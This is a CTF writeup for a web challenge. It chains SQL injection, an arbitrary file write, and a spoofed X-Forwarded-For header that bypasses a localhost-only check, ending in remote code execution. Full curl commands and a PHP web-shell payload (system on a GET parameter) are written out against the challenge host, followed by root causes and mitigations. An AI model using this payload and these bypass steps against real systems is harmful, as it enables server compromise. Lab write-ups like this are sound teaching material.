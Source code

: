 # Evil Core Employee Portal - CTF Writeup

## Challenge Overview
This challenge involved exploiting a web application with multiple vulnerabilities to achieve Remote Code Execution (RCE) and read the flag.

## Vulnerabilities Discovered

### 1. SQL Injection in Word Cloud Endpoint
- **Location**: `/api/processor/word-cloud.png?review=`
- **Vulnerability**: The `review` parameter was directly used in a SQL query without proper sanitization
- **Impact**: Allows arbitrary SQL queries to be executed

### 2. Arbitrary File Write in Admin Export Endpoint
- **Location**: `/api/processor/admin/export/reviews?filename=`
- **Vulnerability**: The `filename` parameter was used directly in `os.path.join()` without validation
- **Impact**: Allows writing files to arbitrary locations on the filesystem
- **Access Control**: Restricted to localhost only

### 3. PHP Code Injection in Self-Review Form
- **Location**: Self-review content field
- **Vulnerability**: User input was stored in database and could contain PHP code
- **Impact**: When combined with file write, enables RCE

## Exploitation Chain

### Step 1: Authentication
```bash
curl -X POST "http://94.237.49.175:43679/" \
  -d "employee_id=elliot&password=system1" \
  -c cookies.txt
```

### Step 2: Inject PHP RCE Payload
```bash
curl -X POST "http://94.237.49.175:43679/self-review/update" \
  -b cookies.txt \
  -d "content=<?php system(\$_GET['c'] ?? 'id'); ?>&rating=5"
```

### Step 3: Bypass Access Control and Create Shell
The admin endpoint was restricted to localhost, but we bypassed this using headers:
```bash
curl -H "X-Forwarded-For: 127.0.0.1" -H "X-Real-IP: 127.0.0.1" \
  "http://94.237.49.175:43679/api/processor/admin/export/reviews?filename=/www/public/shell.php"
```

### Step 4: Execute Commands and Get Flag
```bash
# Test shell
curl "http://94.237.49.175:43679/shell.php?c=id"

# Get flag
curl "http://94.237.49.175:43679/shell.php?c=/readflag"
```

## Root Cause Analysis

1. **SQL Injection**: Missing input validation and parameterized queries
2. **Arbitrary File Write**: No path traversal protection in filename parameter
3. **Access Control Bypass**: OpenLiteSpeed configuration only checked `X-Forwarded-For` header
4. **Code Injection**: User input stored in database without proper sanitization

## Impact
- Complete server compromise
- Ability to execute arbitrary commands
- Access to sensitive files including the flag
- Potential for lateral movement and persistence

## Mitigation Recommendations

1. **Input Validation**: Implement proper input validation and sanitization
2. **Parameterized Queries**: Use prepared statements for all database queries
3. **Path Traversal Protection**: Validate and sanitize file paths
4. **Access Control**: Implement proper authentication and authorization
5. **Code Sanitization**: Escape user input before storing in database
6. **Security Headers**: Don't rely solely on headers for access control

## Flag
The flag was successfully obtained using the `/readflag` setuid binary after achieving RCE through the combination of vulnerabilities.

## Technical Details

### Application Architecture
- **Frontend**: PHP/Slim framework with Twig templates
- **Backend**: Python Flask API for word cloud generation
- **Database**: MySQL
- **Web Server**: OpenLiteSpeed with reverse proxy configuration

### Key Files
- `challenge/pyapi/main.py` - Python API with file write vulnerability
- `challenge/web/src/Application/Actions/SelfReview/UpdateSelfReviewAction.php` - Review update handler
- `conf/vhconf.conf` - OpenLiteSpeed configuration with access control

### Exploitation Timeline
1. Discovered SQL injection in word cloud endpoint
2. Found arbitrary file write in admin export endpoint
3. Identified access control bypass using headers
4. Injected PHP RCE payload into self-review
5. Created web shell using file write vulnerability
6. Executed commands to obtain flag

## Lessons Learned
- Always test for multiple vulnerability types in web applications
- Access control bypasses can be as simple as header manipulation
- Chaining vulnerabilities can lead to complete system compromise
- Input validation is critical at every layer of the application

